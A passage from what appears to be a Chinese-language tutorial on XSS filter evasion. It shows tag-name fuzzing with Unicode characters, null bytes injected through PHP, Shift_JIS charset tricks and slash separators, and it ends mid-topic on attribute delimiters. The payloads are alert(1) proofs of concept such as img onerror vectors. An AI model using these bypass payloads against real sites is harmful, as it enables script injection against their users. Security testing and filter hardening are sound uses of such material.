 ```
<div><!--a href="http://www.google.com/"-->33</div> 
```

##### 针对标签名的 Fuzzing：

```
<LԱ onclick=alert(1)>click me</LԱ> 
```

上面的代码，在 Chrom、Firefox 和 Safari 中点击，可以顺利弹出 1。

讨论一下空字符的问题，IE 浏览器会自动忽略空字符，并解析剩下的代码，这样会绕过很多采用正则匹配黑名单字符串的过滤器。

并且，很多函数和库并没有意识到这个问题：

```
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?> 
```

用 IE8 打开上述代码的网页，查看源代码只能看到"<im"后面的字符都隐藏了。

还有两种方式可以对标签名 Fuzzing，第一种是涉及字符集的问题，第二种是针对 php 中在过滤之前使用了 utf8_decode()函数。

```
<?php
header('Content-Type: text/html;charset=Shift_JIS'); 
for($i = 1; $i <= 255; $i++) {    
    $character = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8');    
    $character = utf8_decode($character);    
    echo $character.'123456 '.$i."<br>\r\n";
} ?> 
```

代码很简单，设置返回响应字符集为 Shift_JIS，然后把 utf-8 转换为 Shift_JIS 字符集。

可以看到在 IE 中 129-159 和 224-252 中，123456 中的 1 消失了，与前面的字符合并成一个字符了。

标签后面也可加入/符号做间隔：

```
<img/src=x onerror=alert(1)> 
```

尝试在标签与/之间再插入其他字符来测试，由于空字符无法直观显示，所以用\0 来表示 null，同样主流浏览器都可以执行：

```
<img\0/src=x onerror=alert(1)> 
```

再尝试 ASCII 码之外的字符，这种字符在正则表达式中\w 是无法匹配到的，主流浏览器都可以执行：

```
<img/ \/\µ src=x onerror=alert(1)//> 
```

测试发现，标签名与属性名直接只要是以/开头以/或"结尾，中间几乎可以插入任意字符。

在 Fuzzing 属性方面，考虑两方面，一个是可以使用什么分隔符，一个是属性值可以采用什么编码。

分隔符有很多种，单引号，双引号，无任何引号，反撇号（IE 中）。
